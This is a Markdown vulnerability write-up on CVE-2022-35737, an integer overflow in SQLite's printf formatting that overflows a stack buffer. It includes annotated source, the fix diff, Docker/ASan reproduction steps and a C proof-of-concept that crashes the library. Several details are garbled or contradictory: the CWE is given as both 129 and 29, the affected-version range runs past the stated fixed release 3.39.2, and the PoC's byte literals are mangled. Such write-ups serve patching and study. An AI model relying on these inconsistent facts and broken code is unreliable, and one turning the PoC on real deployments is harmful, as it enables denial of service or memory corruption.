


# CVE-2022-35737 CWE-129 SQLite array boundary overflow

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.
- **CWE-29 (Improper Validation of Array Index)**

## Vulnerability Mechanism
The vulnerability lies in SQLite's internal formatting function  `sqlite3_str_vappendf` : when the formatting type is  `%q`  /  `%Q`  /  `%w`  and a "multi-billion-byte" level of a very large string is passed, the function first counts the number of bytes to be copied using a 32-bit integer   `i`  and the number of bytes inserted for escape  `n` , then calculate  `n += i + 3`  to estimate the output buffer size; If the  `i`  is large, the addition will undergo a **signed integer overflow** on the 32-bit, causing the  `n`  to become smaller or negative, thus incorrectly selecting the small buffer on the stack ( `etBUFSIZE` ) without allocating the heap buffer, then pressing  `i`   Bytes writing data causes array-bounds overflow.

## Vulnerability Location
In the src/printf.c file, line 213  `sqlite3_str_vappendf`  scans the input string and formats the list of variable parameters according to the replacement type specified in the format string.

At line 803, for the  `case`  branch used to handle  `%q` ,  `%Q` , and  `%w` , the function first scans the input string to find quotation marks, then calculates the number of bytes needed for output (see lines 824–828 of the source code). Then copy the input into the output buffer and insert quotation marks when needed (see lines 842–845).

At line 832, the  `n`  used to record the number of extra quotation characters and the  `i`  to record the number of input bytes are used to calculate the maximum number of bytes needed for the output buffer  `n+=i+3` . When  `n`  overflow is negative (for example, when  `int`  is 32 bits and  `n == 0`  and  `i == 0x7ffffffe` ),  `n`  becomes negative, causing subsequent judgments to fail  `if( n>etBUFSIZE )` .

In other words, although the actual output may be much larger than the stack buffer, the program selects a small buffer  `buf`  on the stack (which is  `etBUFSIZE` , default is 70 bytes), and then copies at least  `i`  bytes from the input to the target buffer (the copy loop starting at line 843). When  `n`  overflow is negative,  `i`  may be much greater than  `etBUFSIZE` , resulting in **stack buffer overflow** because the input is copied into a stack buffer that cannot accommodate it (causing out-of-bounds writes).

```c
// printf.c file, line 213
void sqlite3_str_vappendf(sqlite3_str *pAccum, const char *fmt, va_list ap)
{
    // ... 
    
// 803 Line *****
      case etSQLESCAPE:           /* %q: Turning the meaning ' Character */
      case etSQLESCAPE2:          /* %Q: Turning the meaning ' All are used '...' Encircle */
      case etSQLESCAPE3: {        /* %w: Turning the meaning " Character */
        int i, j, k, n, isnull;
        int needQuote;
        char ch;
        char q = ((xtype==etSQLESCAPE3)?'"':'\'');   /* Quote marks */
        char *escarg;

        if( bArgList ){
          escarg = getTextArg(pArgList);
        }else{
          escarg = va_arg(ap,char*);
        }
        isnull = escarg==0;
        if( isnull ) escarg = (xtype==etSQLESCAPE2 ? "NULL" : "(NULL)");
        k = precision;
        for(i=n=0; k!=0 && (ch=escarg[i])!=0; i++, k--){
          if( ch==q )  n++;
          if( flag_altform2 && (ch&0xc0)==0xc0 ){
            while( (escarg[i+1]&0xc0)==0x80 ){ i++; }
          }
        }
        needQuote = !isnull && xtype==etSQLESCAPE2;
// 832 lines *****
        n += i + 3;
        if( n>etBUFSIZE ){
          bufpt = zExtra = printfTempBuf(pAccum, n);
          if( bufpt==0 ) return;
        }else{
          bufpt = buf;
        }
        j = 0;
        if( needQuote ) bufpt[j++] = q;
        k = i;
        for(i=0; i<k; i++){
// 843 lines *****
          bufpt[j++] = ch = escarg[i];
          if( ch==q ) bufpt[j++] = ch;
        }
        if( needQuote ) bufpt[j++] = q;
        bufpt[j] = 0;
        length = j;
        goto adjust_width_for_utf8;
      }
    
    // ....
}
```

## Remediation

Upgrade to SQLite 3.39.2 or later. The fix changes the `%q`, `%Q`, and `%w` formatting counters and length calculations from 32-bit `int` to 64-bit `i64`, validates the resulting allocation size, and prevents very large input strings from wrapping the output length before escaping and copying.

Until upgraded, do not pass attacker-controlled multi-gigabyte strings to `sqlite3_mprintf()`, `sqlite3_vmprintf()`, or SQL `format()` with `%q`, `%Q`, or `%w`. Application input-size limits reduce reachability but do not replace the library update.
Change  `i, j, k, n`  from 32-bit  `int`  to SQLite's 64-bit integer type  `i64`  

```diff
Index: src/printf.c
==================================================================
@@ -803,8 +803,8 @@ void sqlite3_str_vappendf(
      case etSQLESCAPE:           /* %q: Escape ' characters */
      case etSQLESCAPE2:          /* %Q: Escape ' and enclose in '...' */
      case etSQLESCAPE3: {        /* %w: Escape " characters */
-       int i, j, k, n, isnull;
-       int needQuote;
+       i64 i, j, k, n;
+       int needQuote, isnull;
        char ch;
        char q = ((xtype==etSQLESCAPE3)?'"':'\'');   /* Quote character */
        char *escarg;
```

## Affected Versions
SQLite :

- 1.0.12 to 3.49.1

## Environment Setup
Start the Docker environment with SQLite version 3.39.0, which enables ASAN memory checking at compile time

```txt
NIST:NVD    Base Score:7.5 HIGH    Vector:CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:L
```

```txt
cpe:2.3:a:sqlite:sqlite:3.39.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

   ```bash
   docker exec -it sqlite-3.39.0 bash
   ```

2. Compile the PoC code and link it to the libsqlite3.so

   ```bash
   gcc -g -fsanitize=address -fno-omit-frame-pointer \
       -I/usr/include -L/usr/local/lib -Wl,-rpath=/usr/local/lib \
       CVE-2022-35737-PoC.c -lsqlite3 -o CVE-2022-35737-PoC
   ```

3. Run the compiled PoC code

   ```bash
   ./CVE-2022-35737-PoC
   ```

4. The ASan report shows that PoC has already experienced a collapse (SEGV) in sqlite3_str_vappendf

   

## PoC Analysis

```c
#include  <stdio.h> 
#include  <stdlib.h> 
#include  <string.h> 
#include  <sqlite3.h> 
#include  <unistd.h> 

int main(int argc, char *argv[]) {
    size_t src_buf_size = 0x100000001;

    char *src = calloc(1, src_buf_size);
      if (!src) {
        printf("bad allocation \n ");
        return -1;
    }
    src[0] = ' \xc 0';
    memset(src+1, ' \x 80',  0xffffffff);

    char dst[256];
    sqlite3_snprintf(256, dst, "'%!q'", src);
    free(src);
    return 0;
}
```

PoC constructs **billion-bytes** in  `0xC0 0x80 0x80...`  mode and uses  `'%!q'`  ( `%q`  +  `!`  to enable UTF-8 skip logic), causing the  `sqlite3_str_vappendf`  to scan the input to   `i`  is calculated to be very large, but  `n += i + 3`  (used to estimate output buffer size) has **signed integer overflow** on 32-bit  `int` , so it is mistakenly judged that the large buffer is not allocated but the small buffer on the stack is used  `buf` , then press   `i`  bytes write data causing stack overflow

## References
[ NVD - CVE-2022-35737 ](https://nvd.nist.gov/vuln/detail/CVE-2022-35737#range-15645929 )

[ Stranger Strings: An exploitable flaw in SQLite -The Trail of Bits Blog ](https://blog.trailofbits.com/2022/10/25/sqlite-vulnerability-july-2022-library-api/#the-vulnerability )
